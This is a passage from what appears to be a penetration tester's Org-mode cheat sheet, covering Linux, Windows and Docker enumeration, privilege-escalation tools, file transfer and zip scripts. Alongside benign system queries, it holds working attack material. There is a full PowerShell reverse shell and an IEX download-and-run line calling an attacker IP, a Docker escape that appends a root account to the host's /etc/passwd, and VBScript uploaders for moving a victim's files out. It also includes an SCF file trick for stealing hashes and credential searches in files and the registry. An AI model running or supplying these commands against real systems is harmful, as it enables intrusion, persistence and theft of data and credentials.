     #+begin_src sh
       # All details
       cat /proc/version

       # Kernel details
       uname -a

       # Distro detail
       cat /etc/issue

       cat /etc/*-release
       # Check the Dirty COW section
     #+end_src
   - Kernel hardening using [[https://github.com/slimm609/checksec.sh][checksec]]:
     #+begin_src sh
       ./checksec --kernel 2>/dev/null
     #+end_src
   - List scheduled tasks:
     #+begin_src sh
       # Current user
       crontab -l
       # Some systems may use cru

       # System scheduled tasks
       less /etc/crontab

       # Systemd timers
       systemctl list-timers
     #+end_src
   - Find files/directories:
     #+begin_src sh
       ls -lah /

       ls -lah /root

       ls -lah /home

       ls -lah /var

       ls -lah /var/spool

       ls -lah /var/mail

       ls -lah /var/spool/mail

       ls -lah /etc/security

       ls -lah /etc/init

       ls -lahd /etc/init

       ls -lah /etc/init.d

       ls -lahd /etc/init.d

       ls -lah /etc/rc.d

       ls -lahd /etc/rc.d

       ls -lah /etc/rc.d/init.d

       ls -lahd /etc/rc.d/init.d

       ls -lah /etc/systemd/system

       ls -lahd /etc/systemd/system

       find /var/log -type f 2>/dev/null

       find /var/cache -type f 2>/dev/null

       find /var/crash -type f 2>/dev/null

       # Exclude paths
       find /var/www \! -path /var/www/error/\* -type f 2>/dev/null

       # Files owned by specific users/groups
       find / \( -user adm -o -group adm \) -ls 2>/dev/null | grep -v ' /sys\| /proc'

       ls -lah /etc

       ls -lah /usr/src

       ls -lah /usr/local

       ls -lah /opt

       ls -lah /var/opt

       # Show the commands of the processes
       find /proc -name cmdline -exec sh -c 'grep -qv "^ *$" {} && { echo; echo {} | sed "h;s/./-/gp;H;x"; cat {}; echo; }' \; 2>/dev/null

       # All world writable files
       find / -perm -o+w -type f \! -path /proc \! -path /sys 2>/dev/null

       # Check if they are writable
       ls -lahd /etc/ld.so.conf.d/
       ls -lah /etc/ld.so.conf.d/
     #+end_src
   - Follow [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ldconfig][this]] if ld.so.conf can be modified
   - Check udev rules:
     #+begin_src sh
       ls -lah /etc/udev/rules.d
       ls -lahd /etc/udev/rules.d
     #+end_src
   - List disk/partitions:
     #+begin_src sh
       ls /dev

       ls /dev/mapper

       # List partitions
       fdisk -l /dev/sda

       blkid /dev/sda

       cat /proc/partitions

       # Mounted
       mount

       cat /etc/mtab

       cat /etc/fstab

       cat /proc/mounts

       # Swap
       swapon

       cat /proc/swaps
     #+end_src
   - Mount partitions:
     #+begin_src sh
       # Requires root
       mount /dev/sda2 <path>

       # Doesn't require
       udisksctl mount -b /dev/sda2 <path>
     #+end_src
   - Host and Domain identification:
     #+begin_src sh
       # hostname
       hostname

       # Long hostname
       hostname -f

       # IPs for the hostname
       hostname -i

       # NIS/YP Domain
       hostname -y

       domainname

       nisdomainname

       ypdomainname

       # DNS domain
       hostname -d

       dnsdomainname
     #+end_src
   - Get the interfaces:
     #+begin_src sh
       # Modern systems
       ip addr

       # Not so modern
       ifconfig

       # Old systems
       netstat -ie
     #+end_src
   - Check the routing table:
     #+begin_src sh
       # Modern systems
       ip route

       # Not so modern
       route

       # Old systems
       netstat -r
     #+end_src
   - Check the DNSs:
     #+begin_src sh
       cat /etc/resolv.conf
     #+end_src
   - Check the hosts:
     #+begin_src sh
       cat /etc/hosts
     #+end_src
   - Check the ARP table:
     #+begin_src sh
       arp

       # BSD format
       arp -a

       # Numeric output
       arp -n
     #+end_src
   - Check the sockets:
     #+begin_src sh
       # Modern systems
       ss -tulnp

       # Old systems
       netstat -anop
     #+end_src
   - Check the firewall rules:
     #+begin_src sh
       iptables --list
       # Modern systems may use nftables
     #+end_src
   - List running processes:
     #+begin_src sh
       ps aux | less
       # ps w in some systems
     #+end_src
   - List drivers:
     #+begin_src sh
       lsmod

       less /proc/modules
     #+end_src
   - CPU and memory info:
     #+begin_src sh
       less /proc/cpuinfo

       less /proc/meminfo

       # Stats
       cat /proc/uptime

       less /proc/stat

       less /proc/vmstat

       less /proc/misc
     #+end_src
** Windows
*** cmd.exe
    - List [[https://docs.microsoft.com/en-us/windows/deployment/usmt/usmt-recognized-environment-variables][environment variables]]:
      #+begin_src bat
        echo %USERNAME%

        echo %USERDOMAIN%

        echo %USERPROFILE%

        echo %PATH%

        :: Temporarily modify it
        set PATH=%PATH%;C:\<path>

        :: Set it permanently (yes, no =)
        setx PATH %PATH%;C:\<path>
      #+end_src
    - Check if custom installation:
      #+begin_src bat
        :: Both should be the same
        echo %SystemRoot%

        echo %WinDir%
        :: SystemRoot isn't defined in pre-NT
      #+end_src
    - Find all users / user info:
      #+begin_src bat
        :: List all users
        net user

        :: List extended user info
        net user <username>
        :: Pay attention to the Local and Global Group memberships

        :: Enumerate all domain users
        net user /domain

        :: List current account details
        net accounts
      #+end_src
    - List current user and hostname:
      #+begin_src bat
        :: May not be installed
        whoami

        hostname
      #+end_src
    - List current user privileges:
      #+begin_src bat
        whoami /priv
      #+end_src
    - List OS and version:
      #+begin_src bat
        systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

        :: Alternatively try: msinfo32
        :: Note: msinfo32 may not be in PATH
      #+end_src
    - List patches:
      #+begin_src bat
        wmic qfe get Caption,Description,HotFixID,InstalledOn
      #+end_src
    - List .NET versions:
      #+begin_src bat
        :: Useful for compiling C# exploits
        dir /a:D "C:\WINDOWS\Microsoft.NET\Framework"

        :: Or query the registry
        reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP"
      #+end_src
    - List PowerShell versions and paths:
      #+begin_src bat
        :: Try with different numbers
        reg query HKLM\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine /v PowerShellVersion

        reg query HKLM\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine /v ApplicationBase

        :: Custom PSs
        reg query HKLM\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell /v Path
        :: ^ Also check for ExecutionPolicy
      #+end_src
    - Find files/directories:
      #+begin_src bat
        cd C:\

        :: Show hidden and non-hidden content
        dir /a

        :: List all recursively
        dir /s /a

        :: Locate .txt files in the system
        dir /s *.txt

        :: Locate .bak files in the system
        dir /s *.bak

        :: List non-hidden recursively
        dir /s

        :: Hidden content only
        dir /ah

        :: Hidden content recursively
        dir /ah /s

        :: Both hidden/non-hidden - simple
        for /f "tokens=*" %i in ('dir /b/a:-d') do echo "%i"
      #+end_src
    - Check folder permissions ([[https://ss64.com/nt/icacls.html][icacls]]):
      #+begin_src bat
        :: WD: Write Perm | AD: Create Dir
        icacls <dir>
        :: R: Read | X: Execute | I: Inherit
      #+end_src
    - List possible passwords/credentials:
      #+begin_src bat
        :: Files
        dir /s /a *pass* == *cred* == *vnc* == *.config*

        findstr /si password *.xml *.ini *.txt

        :: Registry
        reg query HKLM /f password /t REG_SZ /s

        reg query HKCU /f password /t REG_SZ /s
      #+end_src
    - PowerShell history:
      #+begin_src bat
        type %USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
      #+end_src
    - Show the content/concat file(s):
      #+begin_src bat
        type <file>
      #+end_src
    - List, mount, unmount disk volumes:
      #+begin_src bat
        :: List all volumes
        mountvol

        :: Mount volume in D:
        mountvol D:\ \\?\Volume{<guid>}\

        :: Unmount D:
        mountvol D:\ /D
      #+end_src
    - Find the type of a volume (CD-ROM):
      #+begin_src bat
        :: Do this to find why cd D:\ returns
        ::   > The device is not ready
        diskpart

        list disk

        select disk 0

        list partition

        select partition 1

        list volume
        :: Check the type, FS...
        :: CD/DVD-ROM without a disk won't
        :: allow accessing it, thus the error
      #+end_src
    - Disk repair tools (to then mount):
      #+begin_src bat
        chkdsk
        :: Add the /f flag to perform fixes

        sfc /scannow
        :: Windows File Protecton fixer
      #+end_src
    - Mount shares:
      #+begin_src bat
        :: Map the share
        net use \\<ip>\<path>

        :: Map the share to a label
        net use E: \\<ip>\<path>

        :: Or mount the share to a folder
        mklink /d C:\<path> \\<ip>\<path>
      #+end_src
    - List all interfaces:
      #+begin_src bat
        ipconfig /all
      #+end_src
    - List routing table:
      #+begin_src bat
        route print
      #+end_src
    - List ARP tables:
      #+begin_src bat
        arp -a

        arp -A
      #+end_src
    - List all connections, state + pid:
      #+begin_src bat
        netstat -ano

        :: Show only TCP
        netstat -anop TCP
      #+end_src
    - List firewall stated and configuration:
      #+begin_src bat
        netsh firewall show state

        netsh firewall show config
      #+end_src
    - List firewall adv profile and rules:
      #+begin_src bat
        netsh advfirewall show currentprofile

        netsh advfirewall firewall show rule name=all
      #+end_src
    - List scheduled tasks:
      #+begin_src bat
        schtasks /query /fo LIST /v
        :: A modified version exists for
        :: Win2K as well as JT.EXE
      #+end_src
    - List running processes:
      #+begin_src bat
        :: All running processes
        tasklist /SVC

        :: Process by match
        tasklist /FI "IMAGENAME eq <process>"
      #+end_src
    - List drivers and filter:
      #+begin_src bat
        :: List not found in C:\WINDOWS
        driverquery /v | findstr /i /v "C:\WINDOWS"

        :: List only executed at boot
        driverquery /v | findstr /i "boot"

        :: List only running drivers
        driverquery /v | findstr /i "running"
      #+end_src
    - List services and their permissions:
      #+begin_src bat
        wmic service list brief

        :: Using sc
        sc query

        sc qc <service-name>
      #+end_src
    - [[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk][AccessChk]] multiple system permissions:
      #+begin_src bat
        :: Accept terms
        accesschk.exe /accepteula

        :: Service permissions
        accesschk.exe -ucqv *

        accesschk.exe -ucqv <service-name>

        accesschk.exe -uwcqv "Authenticated Users" *

        :: Folders with weak permissions
        accesschk.exe -uwdqs Users C:\

        accesschk.exe -uwdqs "Authenticated Users" C:\

        :: Files with weak permissions
        accesschk.exe -uwqs Users C:\*.*

        accesschk.exe -uwqs "Authenticated Users" C:\*.*
      #+end_src
*** PowerShell
    - Check for current PS path:
      #+begin_src bat
        (Get-Process -Id $pid).Path
      #+end_src
    - Check for default PS:
      #+begin_src bat
        (Get-Command PowerShell.exe).Path

        :: Newer Windows
        (Get-Command -Name pwsh).Path
      #+end_src
    - Check for current version:
      #+begin_src bat
        :: PS 2.0 and up
        $PSVersionTable.PSVersion.ToString()

        :: PS 1.0
        $host.Version
      #+end_src
    - Check if running 64 bit PS:
      #+begin_src bat
        :: Pointers are 8 bytes on x64 PS
        [System.IntPtr]::Size -eq 8

        :: Using the environment
        [Environment]::Is64BitProcess
      #+end_src
    - Run a specific version:
      #+begin_src bat
        powershell -version 2
      #+end_src
    - Check for a specific version:
      #+begin_src bat
        Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2

        :: Windows Server
        Get-WindowsFeature PowerShell-V2
      #+end_src
    - Path list:
      - Windows 64 bit:
        #+begin_src bat
          %SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe

          :: From 32 bit session
          %SystemRoot%\SysNative\WindowsPowerShell\v1.0\powershell.exe
        #+end_src
      - Windows 32 bit:
        #+begin_src bat
          %SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe
          :: Also try %WinDir%

          :: From 64 bit session
          %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
        #+end_src
** Docker
   - List the images:
     #+begin_src sh
       docker images
     #+end_src
   - Check the history of an image:
     #+begin_src sh
       docker history --no-trunc <img-hash>
     #+end_src
   - Run an interactive shell in the image:
     #+begin_src sh
       docker run -it --entrypoint=/bin/sh <img-hash>
     #+end_src
   - Mount the host's filesystem and access it through docker:
     #+begin_src sh
       cd /
       docker run -it -v $PWD:/mnt --entrypoint=/bin/sh <img-hash>

       # If you are root in Docker you'll be
       # able to access the host filesystem
       # also as root under /mnt
       echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
       # Now you'll be able to su toor with
       # password: password on the host
     #+end_src
   - If you don't have any image available (or those available are restricted) you can use a socks tunnel to obtain a [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#docker][vulnerable one]]

* System Monitoring
** Linux
*** pspy
    - [[https://github.com/DominicBreuker/pspy][Site]] - profs unprivileged info snoop:
      #+begin_src sh
        # -pf - Commands and System Events
        pspy -pf -i 1000
        # -i <ms>  - Scan procfs every 1000ms
        # -r <dir> - Recursive dir watch
        # -d <dir> - Non-recursive dir watch
      #+end_src

* System Vulnerability Enumeration
** Windows
*** Generic
**** winPEAS
     - [[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe#quick-start][winPEASexe]] - .NET >= 4.5 (Watson incl)
     - [[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat][winPEASbat]] - toggle the ~long~ variable
**** Windows-Exploit-Suggester
     - [[https://github.com/AonCyberLabs/Windows-Exploit-Suggester][Site]] - [[https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/48#issuecomment-756517137][unsupported xlsx fix]]
       #+begin_src sh
         # Obtain the latest database
         windows-exploit-suggester.py --update

         # Suggest based on systeminfo output
         windows-exploit-suggester.py --database <database> --systeminfo <file-with-systeminfo-output>
       #+end_src
*** Kernel
**** Sherlock
     - PowerShell x86/x64
     - [[https://github.com/rasta-mouse/Sherlock/raw/master/Sherlock.ps1][Download]]
     - Usage:
       #+begin_src bat
         :: Use the appropriate PS (x86/x64)
         powershell.exe -Exec Bypass -nop -w Hidden -NoLogo -NonInteractive -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/Sherlock.ps1'); Find-AllVulns"
       #+end_src
** Linux
*** Generic
**** linPEAS
     - [[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS#quick-start][linPEAS.sh]] - Run with ~-a~, use ~-P <pwd>~

* Folders Enumeration
** Windows
   #+begin_src bat
     C:\Program Files

     C:\WINDOWS\Debug

     :: Logs from Apps
     C:\WINDOWS\system32\LogFiles

     :: SAM & System - Check .bak
     C:\WINDOWS\system32\config

     :: Memory dumps
     C:\WINDOWS\MEMORY.DMP

     :: Nothing special
     C:\WINDOWS\system32\ReinstallBackups

     :: Search *.log *.bak
     C:\WINDOWS\
   #+end_src

* File
** Transfer
*** Windows
**** Download
***** cmd.exe
       - VBScript to download binary files (type 1 -> bin; type 2 -> text but it looks like 2 doesn't work and 1 also works with text) using ADO DB, run it with ~cscript //B //T:180 //Nologo wget.vbs "http://<ip-port>/<remote-file>" "<name>"~:
         #+begin_src bat
           echo Dim strURL, StrFile > wget.vbs
           echo strUrl = WScript.Arguments.Item(0) >> wget.vbs
           echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
           echo Dim http, bytes >> wget.vbs
           echo Err.Clear >> wget.vbs
           echo Set http = Nothing >> wget.vbs
           echo Set http = WScript.CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> wget.vbs
           echo WScript.Echo "Downloading " ^& StrFile >> wget.vbs
           echo http.Open "GET", strURL, False >> wget.vbs
           echo http.Send >> wget.vbs
           echo bytes = http.ResponseBody >> wget.vbs
           echo Set http = Nothing >> wget.vbs
           echo With WScript.CreateObject("ADODB.Stream") >> wget.vbs
           echo .Open >> wget.vbs
           echo .type = 1 >> wget.vbs
           echo .Write bytes >> wget.vbs
           echo .SaveToFile StrFile, 2 >> wget.vbs
           echo End With >> wget.vbs
           echo WScript.Echo "Done" >> wget.vbs
         #+end_src
       - Alternate script in case ADO DB is not installed using the trick described [[https://stackoverflow.com/a/6087783][here]], note that it is unreliable and may take a long time to write files:
         #+begin_src bat
           echo Dim strURL, StrFile > wget.vbs
           echo strUrl = WScript.Arguments.Item(0) >> wget.vbs
           echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
           echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
           echo Err.Clear >> wget.vbs
           echo Set http = Nothing >> wget.vbs
           echo Set http = WScript.CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> wget.vbs
           echo http.Open "GET", strURL, False >> wget.vbs
           echo http.Send >> wget.vbs
           echo varByteArray = http.ResponseBody >> wget.vbs
           echo Set http = Nothing >> wget.vbs
           echo Set fs = WScript.CreateObject("Scripting.FileSystemObject") >> wget.vbs
           echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
           echo strData = "" >> wget.vbs
           echo strBuffer = "" >> wget.vbs
           echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
           echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
           echo Next >> wget.vbs
           echo ts.Close >> wget.vbs
         #+end_src
***** PowerShell
       - Using [[https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=netframework-4.8][System.Net.WebClient]]
         #+begin_src bat
           :: Download file
           powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ip>/evil.exe', 'evil.exe')

           :: Download and execute remote PS1
           powershell IEX (New-Object Net.WebClient).DownloadString("http://<ip>/shell.ps1");
           :: shell.ps1
           $client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
         #+end_src
***** SMB
      - Check the Impacket>SMBserver section
**** Upload
***** Servers
       - Apache-PHP local server for uploads: ~/var/www/html/upload.php~ (don't forget to set the ~upload~ folder to ~www-data~ owner), note that the PHP built-in web server [[https://www.php.net/manual/en/features.commandline.webserver.php][also parses PHP]], so maybe this file also works:
         #+begin_src php
           <?php
           $uploaddir = '/var/www/uploads/';
           $uploadfile = $uploaddir . $_FILES['file']['name'];
           move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
           ?>
         #+end_src
       - Socat local server for the VBS:
         #+begin_src sh
           socat TCP-LISTEN:8081,reuseaddr,fork SYSTEM:'file="$(eval printf "$(sed -u "s,^POST /\\+\\|\\.\\+/\\| HTTP[^ ]*$,,g;s,/\\+,/,g;s/%\\([0-9]\\+\\)/\\$(printf \\"\\\\\\%03o\\" \\$((0x\\1)))/g;q")")"; length=$(sed -nu "s,^Content-Length:\\s*\\([0-9]\\+\\).*,\\1,gp;/^\\s*$/q"); echo "[$(date "+%F %T")] Receiving $file - size $(numfmt --to=iec-i --suffix=B $length)" >&2; eval "dd ibs=1 count=$length of=\\\"$file\\\" status=none"; printf "\\r\\n"'
         #+end_src
***** cmd.exe
       - Adapted VBScript from [[https://stackoverflow.com/a/35617532][this]], note that [[https://www.w3schools.com/asp/prop_stream_type.asp][type 1 is binary and 2 text]], use it as ~cscript //B //T:180 //Nologo upload.vbs "http://<ip-port>/<remote-name>" "<file>"~ (quote the parameters to include spaces); upload all files in a directory with ~for %f in (.\*) do @cscript...%f "%f"~ (~for /R %f~ for recursion), hidden files with ~for /f "tokens=*" %f in ('dir /b/a:-d') do @cscript...~:
       -
         #+begin_src bat
           echo Dim strURL, strFile, dataFile, dataRequest > upload.vbs
           echo strUrl = WScript.Arguments.Item(0) >> upload.vbs
           echo strFile = WScript.Arguments.Item(1) >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> upload.vbs
           echo Err.Clear >> upload.vbs
           echo Set http = Nothing >> upload.vbs
           echo Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("WinHttp.WinHttpRequest") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("MSXML2.ServerXMLHTTP") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> upload.vbs
           echo WScript.Echo "Uploading " ^& strFile >> upload.vbs
           echo With WScript.CreateObject("ADODB.Stream") >> upload.vbs
           echo .Open >> upload.vbs
           echo .type = 1 >> upload.vbs
           echo .LoadFromFile(strFile) >> upload.vbs
           echo dataFile = .Read() >> upload.vbs
           echo End With >> upload.vbs
           echo dataRequest = dataFile >> upload.vbs
           echo http.open "POST", strURL, False >> upload.vbs
           echo http.setRequestHeader "Content-Type", "application/x-www-form-urlencoded" >> upload.vbs
           echo http.setRequestHeader "Content-Length", Len(dataRequest) >> upload.vbs
           echo http.send dataRequest >> upload.vbs
           echo WScript.Echo "Done" >> upload.vbs
           echo Set http = Nothing >> upload.vbs
         #+end_src
       - Convert the "binary" text files to "text" with ~iconv~ and ~chardetect~ (~pip install chardet~) - [[https://unix.stackexchange.com/a/304178][reference]]:
         #+begin_src sh
           # Detect the charset
           file -i <text-file-in-binary>

           # Or, alternatively:
           chardet <text-file-in-binary>

           # Check if it is BE or LE:
           # -> LE if the odd colums are 000
           od An -bc <text-file-in-binary> | less

           # Convert it with GNU strings:
           # Add -w if missing tabs/newlines
           strings -ael <text-file-in-binary> > <converted>

           # Using POSIX iconv:
           # List all iconv encodings
           iconv -l

           # Convert it to UTF-8
           iconv -f UTF-16LE// -t UTF-8// < <text-file-in-binary> > <converted>

           # Check the type again:
           file -i <text-file-in-binary>

           # Filter it if is still not correct:
           strings -w <converted> > <clean>
         #+end_src
       - This is an alternative in case ADO DB is not installed, but only works reliable with non-binary files, though you may try [[https://stackoverflow.com/a/6087783][this workaround]]:
         #+begin_src bat
           echo Dim strURL, strFile, dataFile, dataRequest > upload.vbs
           echo strUrl = WScript.Arguments.Item(0) >> upload.vbs
           echo strFile = WScript.Arguments.Item(1) >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> upload.vbs
           echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> upload.vbs
           echo Dim http, fs, of >> upload.vbs
           echo Err.Clear >> upload.vbs
           echo Set http = Nothing >> upload.vbs
           echo Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("WinHttp.WinHttpRequest") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("MSXML2.ServerXMLHTTP") >> upload.vbs
           echo If http Is Nothing Then Set http = WScript.CreateObject("Microsoft.XMLHTTP") >> upload.vbs
           echo WScript.Echo "Uploading " & strFile >> upload.vbs
           echo Set fs = WScript.CreateObject("Scripting.FileSystemObject") >> upload.vbs
           echo Set of = fs.GetFile(strFile) >> upload.vbs
           echo With of.OpenAsTextStream() >> upload.vbs
           echo dataFile = .Read(of.Size) >> upload.vbs
           echo .Close >> upload.vbs
           echo End With >> upload.vbs
           echo dataRequest = dataFile >> upload.vbs
           echo http.open "POST", strURL, False >> upload.vbs
           echo http.setRequestHeader "Content-Type", "application/x-www-form-urlencoded" >> upload.vbs
           echo http.setRequestHeader "Content-Length", Len(dataRequest) >> upload.vbs
           echo http.send dataRequest >> upload.vbs
           echo WScript.Echo "Done" >> upload.vbs
           echo Set http = Nothing >> upload.vbs
         #+end_src
***** PowerShell
       - Using ~System.Net.WebClient~ to perform an HTTP POST:
         #+begin_src bat
           powershell (New-Object System.Net.WebClient).UploadFile('http://<ip>/upload.php', '<file>.docx')
         #+end_src
*** Linux
**** Perl File::Fetch
     - HTTP only (and file, FTP, rsync & git):
       #+begin_src sh
         # Might not support redirects (iosock)
         perl -mFile::Fetch -le 'File::Fetch->new(uri=>"<url>")->fetch(to=>\$_) or die;print'
         # For FTP some changes may be required
       #+end_src
** Attack
*** Windows
**** SCF File Attack
     - Shell Command Files (~.scf~) can be used to send a victim's hashes to an attacker listening with ~responder~
     - Send ~.@evil.scf~ to the victim:
       #+begin_src conf
         [Shell]
         Command=2
         IconFile=\\<ip>\share\test.ico
         [Taskbar]
         Command=ToggleDesktop
       #+end_src
     - The ~.@~ symbols are used to hide it and give it top execution priority
     - When the victim access the folder with the ~.scf~ file, the attacker will receive a connection with the hashes
** Compression / Archive
*** Windows
**** Troubleshooting
     - Some Windows versions and user accounts (such as Administrator) may behave unreliably due to the ~CopyHere~ function
     - Remove the ~//B~ parameter to see the error
     - ~CopyHere~ codes vary: [[https://web.archive.org/web/20101219122453/http://msdn.microsoft.com/en-us/library/bb787866(VS.85).aspx][older]] - [[https://docs.microsoft.com/en-us/windows/win32/shell/folder-copyhere][old]] - [[https://docs.microsoft.com/en-us/previous-versions/windows/desktop/sidebar/system-shell-folder-copyhere?redirectedfrom=MSDN][new]]
     - Try using as last parameter 4 (no copy dialog), 16 (answer yes to all), 1024 (no dialog if error) or False
     - Note that using nothing (or 0) may hang the script as it prompts something in the UI and waits for the user interaction
     - Also try appending a trailing backslash to the directory (and zip) path
     - Ultimately try with a non-SYSTEM shell
**** Unzip
     - VBScript to be run with ~cscript //B //T:180 //Nologo unzip.vbs "<orig.zip>" "<dest-dir>"~, inspired by [[https://superuser.com/a/1314429][this]]:
       #+begin_src bat
         echo Dim fso, strZip, strDir, objShell, filesInZip > unzip.vbs
         echo Set fso = WScript.CreateObject("Scripting.FileSystemObject") >> unzip.vbs
         echo strZip = fso.GetAbsolutePathName(WScript.Arguments.Item(0)) >> unzip.vbs
         echo strDir = fso.GetAbsolutePathName(WScript.Arguments.Item(1)) >> unzip.vbs
         echo WScript.Echo "Unzipping " ^& strZip ^& " into " ^& strDir >> unzip.vbs
         echo If NOT fso.FolderExists(strDir) Then >> unzip.vbs
         echo fso.CreateFolder(strDir) >> unzip.vbs
         echo End If >> unzip.vbs
         echo Set fso = Nothing >> unzip.vbs
         echo Set objShell = WScript.CreateObject("Shell.Application") >> unzip.vbs
         echo Set filesInZip = objShell.NameSpace(strZip).Items >> unzip.vbs
         echo objShell.NameSpace(strDir).CopyHere(filesInZip), 4 + 16 + 1024 >> unzip.vbs
         echo Set objShell = Nothing >> unzip.vbs
       #+end_src
**** Zip
     - VBScript to be run with ~cscript //B //T:180 //Nologo zip.vbs "<dest.zip>" "<orig-dir>"~, inspired by [[https://www.robvanderwoude.com/vbstech_files_zip.php][this]]:
       #+begin_src bat
         echo Dim fso, strZip, strDir, objShell, intSrcItems, intSkipped, filesInDir > zip.vbs
         echo Set fso = WScript.CreateObject("Scripting.FileSystemObject") >> zip.vbs
         echo strZip = fso.GetAbsolutePathName(WScript.Arguments.Item(0)) >> zip.vbs
         echo strDir = fso.GetAbsolutePathName(WScript.Arguments.Item(1)) >> zip.vbs
         echo WScript.Echo "Zipping " ^& strDir ^& " into " ^& strZip >> zip.vbs
         echo With fso.OpenTextFile(strZip, 2, True) >> zip.vbs
         echo .Write "PK" ^& Chr(5) ^& Chr(6) ^& String(18, Chr(0)) >> zip.vbs
         echo .Close >> zip.vbs
         echo End With >> zip.vbs
         echo Set objShell = WScript.CreateObject("Shell.Application") >> zip.vbs
         echo Set filesInDir = objShell.NameSpace(strDir).Items >> zip.vbs
         echo intSkipped = 0 >> zip.vbs
         echo For Each objItem in filesInDir >> zip.vbs
         echo If objItem.IsFolder Then >> zip.vbs
         echo If objShell.NameSpace(objItem.Path).Items.Count = 0 Then >> zip.vbs
         echo intSkipped = intSkipped + 1 >> zip.vbs
         echo End If >> zip.vbs
         echo End If >> zip.vbs
         echo Next >> zip.vbs
         echo objShell.NameSpace(strZip).CopyHere(filesInDir), 4 + 16 + 1024 >> zip.vbs
         echo intSrcItems = filesInDir.Count - intSkipped >> zip.vbs
         echo Set filesInDir = Nothing >> zip.vbs
         echo Do Until objShell.NameSpace(strZip).Items.Count = intSrcItems >> zip.vbs
         echo WScript.sleep 200 >> zip.vbs
         echo Loop >> zip.vbs
         echo Set objShell = Nothing >> zip.vbs
         echo Set fso = Nothing >> zip.vbs
       #+end_src
** Recovery
*** Ext4
**** ext4magic
     - [[ext4magic.sourceforge.net][Site]] - Recover deleted files ([[https://gist.github.com/ebautistabar/cca12863e6335d08a019f015f53fac4a][ref]])
     - Dump the journal (optional):
       #+begin_src sh
         # Recommended to avoid overriding
